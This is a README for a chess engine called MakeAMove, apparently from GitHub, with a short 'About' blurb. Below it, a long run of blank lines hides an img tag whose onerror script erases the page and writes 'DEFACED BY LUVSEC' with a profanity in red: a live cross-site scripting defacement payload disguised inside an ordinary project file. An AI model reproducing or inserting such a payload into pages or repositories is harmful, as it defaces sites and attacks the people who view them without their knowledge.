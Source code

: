 <div align="center">

<h1>MakeAMove</h1>

A W UCI Chess Engine

</div>

## About
MakeAMove is a **New** and **Improved** Chess Engine mean't to be a powerful computerized engine.














































































































































































































<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
